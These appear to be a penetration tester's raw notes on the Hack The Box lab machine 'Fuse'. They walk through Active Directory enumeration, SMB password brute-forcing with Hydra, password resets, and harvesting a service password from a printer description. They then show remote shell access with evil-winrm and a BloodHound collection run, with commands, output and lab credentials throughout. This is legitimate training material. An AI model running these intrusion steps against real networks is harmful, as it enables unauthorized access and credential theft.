





# Nmap 7.91 scan initiated Thu Jan 28 10:30:00 2021 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.193
Nmap scan report for 10.10.10.193
Host is up (0.11s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-01-28 09:45:46Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h55m28s, deviation: 4h37m10s, median: 15m26s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2021-01-28T01:45:57-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-01-28T09:45:55
|_  start_date: 2021-01-28T09:43:49

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 28 10:31:08 2021 -- 1 IP address (1 host up) scanned in 68.50 seconds


port 80:



sudo bash -c 'echo "10.10.10.193 fuse.fabricorp.local fabricorp.local" >> /etc/hosts'







pmerton
tlavel
sthompson
sthompson
sthompson


kali@kali:~/htb/boxes/fuse/10.10.10.193$ dig axfr @fabricorp.local fabricorp.local

; <<>> DiG 9.16.8-Debian <<>> axfr @fabricorp.local fabricorp.local
; (1 server found)
;; global options: +cmd
; Transfer failed.

users, printers, clients




print_logger/news3/?version=13.3.0.22799"

https://www.cvedetails.com/cve/CVE-2019-12135/


nmap --script smb-enum* -p 445 10.10.10.193


serverName: CN=FUSE,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=fabricorp,DC=loca


Domain Name: FABRICORP                                                         
Domain Sid: S-1-5-21-2633719317-1471316042-3957863514  


```py
import ldap3

ip = "10.10.10.193"

server = ldap3.Server(ip, get_info = ldap3.ALL, port =389, use_ssl = False)
connection = ldap3.Connection(server)
connection.bind()
print(server.info)
```

```
DSA info (from DSE):
  Supported LDAP versions: 3, 2
  Naming contexts: 
    DC=fabricorp,DC=local
    CN=Configuration,DC=fabricorp,DC=local
    CN=Schema,CN=Configuration,DC=fabricorp,DC=local
    DC=DomainDnsZones,DC=fabricorp,DC=local
    DC=ForestDnsZones,DC=fabricorp,DC=local
  Supported controls: 
    1.2.840.113556.1.4.1338 - Verify name - Control - MICROSOFT
    1.2.840.113556.1.4.1339 - Domain scope - Control - MICROSOFT
    1.2.840.113556.1.4.1340 - Search options - Control - MICROSOFT
    1.2.840.113556.1.4.1341 - RODC DCPROMO - Control - MICROSOFT
    1.2.840.113556.1.4.1413 - Permissive modify - Control - MICROSOFT
    1.2.840.113556.1.4.1504 - Attribute scoped query - Control - MICROSOFT
    1.2.840.113556.1.4.1852 - User quota - Control - MICROSOFT
    1.2.840.113556.1.4.1907 - Server shutdown notify - Control - MICROSOFT
    1.2.840.113556.1.4.1948 - Range retrieval no error - Control - MICROSOFT
    1.2.840.113556.1.4.1974 - Server force update - Control - MICROSOFT
    1.2.840.113556.1.4.2026 - Input DN - Control - MICROSOFT
    1.2.840.113556.1.4.2064 - Show recycled - Control - MICROSOFT
    1.2.840.113556.1.4.2065 - Show deactivated link - Control - MICROSOFT
    1.2.840.113556.1.4.2066 - Policy hints [DEPRECATED] - Control - MICROSOFT
    1.2.840.113556.1.4.2090 - DirSync EX - Control - MICROSOFT
    1.2.840.113556.1.4.2204 - Tree deleted EX - Control - MICROSOFT
    1.2.840.113556.1.4.2205 - Updates stats - Control - MICROSOFT
    1.2.840.113556.1.4.2206 - Search hints - Control - MICROSOFT
    1.2.840.113556.1.4.2211 - Expected entry count - Control - MICROSOFT
    1.2.840.113556.1.4.2239 - Policy hints - Control - MICROSOFT
    1.2.840.113556.1.4.2255 - Set owner - Control - MICROSOFT
    1.2.840.113556.1.4.2256 - Bypass quota - Control - MICROSOFT
    1.2.840.113556.1.4.2309
    1.2.840.113556.1.4.319 - LDAP Simple Paged Results - Control - RFC2696
    1.2.840.113556.1.4.417 - LDAP server show deleted objects - Control - MICROSOFT
    1.2.840.113556.1.4.473 - Sort Request - Control - RFC2891
    1.2.840.113556.1.4.474 - Sort Response - Control - RFC2891
    1.2.840.113556.1.4.521 - Cross-domain move - Control - MICROSOFT
    1.2.840.113556.1.4.528 - Server search notification - Control - MICROSOFT
    1.2.840.113556.1.4.529 - Extended DN - Control - MICROSOFT
    1.2.840.113556.1.4.619 - Lazy commit - Control - MICROSOFT
    1.2.840.113556.1.4.801 - Security descriptor flags - Control - MICROSOFT
    1.2.840.113556.1.4.802 - Range option - Control - MICROSOFT
    1.2.840.113556.1.4.805 - Tree delete - Control - MICROSOFT
    1.2.840.113556.1.4.841 - Directory synchronization - Control - MICROSOFT
    1.2.840.113556.1.4.970 - Get stats - Control - MICROSOFT
    2.16.840.1.113730.3.4.10 - Virtual List View Response - Control - IETF
    2.16.840.1.113730.3.4.9 - Virtual List View Request - Control - IETF
  Supported extensions: 
    1.2.840.113556.1.4.1781 - Fast concurrent bind - Extension - MICROSOFT
    1.2.840.113556.1.4.2212 - Batch request - Extension - MICROSOFT
    1.3.6.1.4.1.1466.101.119.1 - Dynamic Refresh - Extension - RFC2589
    1.3.6.1.4.1.1466.20037 - StartTLS - Extension - RFC4511-RFC4513
    1.3.6.1.4.1.4203.1.11.3 - Who am I - Extension - RFC4532
  Supported features: 
    1.2.840.113556.1.4.1670 - Active directory V51 - Feature - MICROSOFT
    1.2.840.113556.1.4.1791 - Active directory LDAP Integration - Feature - MICROSOFT
    1.2.840.113556.1.4.1935 - Active directory V60 - Feature - MICROSOFT
    1.2.840.113556.1.4.2080 - Active directory V61 R2 - Feature - MICROSOFT
    1.2.840.113556.1.4.2237 - Active directory W8 - Feature - MICROSOFT
    1.2.840.113556.1.4.800 - Active directory - Feature - MICROSOFT
  Supported SASL mechanisms: 
    GSSAPI, GSS-SPNEGO, EXTERNAL, DIGEST-MD5
  Schema entry: 
    CN=Aggregate,CN=Schema,CN=Configuration,DC=fabricorp,DC=local
Other:
  ldapServiceName: 
    fabricorp.local:fuse$@FABRICORP.LOCAL
  isSynchronized: 
    TRUE
  dsServiceName: 
    CN=NTDS Settings,CN=FUSE,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=fabricorp,DC=local
  isGlobalCatalogReady: 
    TRUE
  domainControllerFunctionality: 
    7
  serverName: 
    CN=FUSE,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=fabricorp,DC=local
  highestCommittedUSN: 
    146090
  defaultNamingContext: 
    DC=fabricorp,DC=local
  schemaNamingContext: 
    CN=Schema,CN=Configuration,DC=fabricorp,DC=local
  rootDomainNamingContext: 
    DC=fabricorp,DC=local
  dnsHostName: 
    Fuse.fabricorp.local
  domainFunctionality: 
    7
  supportedLDAPPolicies: 
    MaxPoolThreads
    MaxPercentDirSyncRequests
    MaxDatagramRecv
    MaxReceiveBuffer
    InitRecvTimeout
    MaxConnections
    MaxConnIdleTime
    MaxPageSize
    MaxBatchReturnMessages
    MaxQueryDuration
    MaxDirSyncDuration
    MaxTempTableSize
    MaxResultSetSize
    MinResultSets
    MaxResultSetsPerConn
    MaxNotificationPerConn
    MaxValRange
    MaxValRangeTransitive
    ThreadMemoryLimit
    SystemMemoryLimitPercent
  currentTime: 
    20210128103604.0Z
  configurationNamingContext: 
    CN=Configuration,DC=fabricorp,DC=local
  forestFunctionality: 
    7

```


rpcclient -U "sthompson" 10.10.10.193
Enter WORKGROUP\sthompson's password: 
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE


GetNPUsers.py HTB.local/ -request -format hashcat -outputfile npusers.hash -dc-ip 10.10.10.161


kali@kali:~/htb/boxes/fuse/10.10.10.193$ GetNPUsers.py fabricorp.local/ -usersfile users.txt 
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] User pmerton doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tlavel doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sthompson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bhult doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set


cewl -w password.txt -d 10 -m 1 http://fuse.fabricorp.local/papercut/logs/html/index.htm

john --wordlist=passwords.txt --rules --stdout > mutated.txt


kali@kali:~/htb/boxes/fuse/10.10.10.193$ hydra -L users.txt -P mutated.txt smb://10.10.10.193 -t 32
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-28 12:13:39
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 745 login tries (l:5/p:149), ~745 tries per task
[DATA] attacking smb://10.10.10.193:445/
[STATUS] 198.00 tries/min, 198 tries in 00:01h, 547 to do in 00:03h, 1 active
[445][smb] Host: 10.10.10.193 Account: tlavel Valid password, password expired and must be changed on next logon
[445][smb] host: 10.10.10.193   login: tlavel   password: Fabricorp01
[445][smb] Host: 10.10.10.193 Account: bhult Valid password, password expired and must be changed on next logon
[445][smb] host: 10.10.10.193   login: bhult   password: Fabricorp01
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-28 12:16:33


kali@kali:~/htb/boxes/fuse/10.10.10.193$ psexec.py tlavel@10.10.10.193
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[-] SMB SessionError: STATUS_PASSWORD_MUST_CHANGE(The user password must be changed before logging on the first time.)
kali@kali:~/htb/boxes/fuse/10.10.10.193$ psexec.py bhult@10.10.10.193
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[-] SMB SessionError: STATUS_PASSWORD_MUST_CHANGE(The user password must be changed before logging on the first time.)


smbpasswd -r 10.10.10.193 -U tlavel
smbpasswd -r 10.10.10.193 -U bhult

new pw:

WE5EK64KSZ48J4D4--1


kali@kali:~/htb/boxes/fuse/10.10.10.193$ crackmapexec smb -u users.txt -p valid-password.txt --shares 10.10.10.193
SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\pmerton:WE5EK64KSZ48J4D4--- STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\tlavel:WE5EK64KSZ48J4D4--- 
SMB         10.10.10.193    445    FUSE             [+] Enumerated shares
SMB         10.10.10.193    445    FUSE             Share           Permissions     Remark
SMB         10.10.10.193    445    FUSE             -----           -----------     ------
SMB         10.10.10.193    445    FUSE             ADMIN$                          Remote Admin
SMB         10.10.10.193    445    FUSE             C$                              Default share
SMB         10.10.10.193    445    FUSE             HP-MFT01                        HP-MFT01
SMB         10.10.10.193    445    FUSE             IPC$                            Remote IPC
SMB         10.10.10.193    445    FUSE             NETLOGON        READ            Logon server share 
SMB         10.10.10.193    445    FUSE             print$          READ            Printer Drivers
SMB         10.10.10.193    445    FUSE             SYSVOL          READ            Logon server share


 rpcclient -U "FABRICORP\\tlavel" 10.10.10.193

 WE5EK64KSZ48J4D4--1


 rpcclient $> enumdomusers 
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]


rpcclient $> enumprinters 
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]


Administrator
Guest
krbtgt
DefaultAccount
svc-print
bnielson
sthompson
tlavel
pmerton
svc-scan
bhult
dandrews
mberbatov
astein
dmuir


kali@kali:~/htb/boxes/fuse/10.10.10.193$ hydra -L users.txt -P valid-password.txt smb://10.10.10.193 -t 32
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-28 15:23:46
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 30 login tries (l:15/p:2), ~30 tries per task
[DATA] attacking smb://10.10.10.193:445/
[445][smb] host: 10.10.10.193   login: svc-print   password: $fab@s3Rv1ce$1
[445][smb] host: 10.10.10.193   login: svc-scan   password: $fab@s3Rv1ce$1
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-28 15:23:58


evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'

*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami
fabricorp\svc-print


upload /usr/share/metasploit-framework/data/post/SharpHound.exe

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 19 MB RAM
[+] Creating Schema map for domain WORKGROUP using path CN=Schema,CN=Configuration,DC=WORKGROUP
Status: 69 objects finished (+69 2.3)/s -- Using 27 MB RAM
Status: 70 objects finished (+1 1.428571)/s -- Using 28 MB RAM
Enumeration finished in 00:00:49.2601026
Compressing data to .\20210128064237_BloodHound.zip
You can upload this file directly to the UI


bloodhound 

sudo neo4j  start


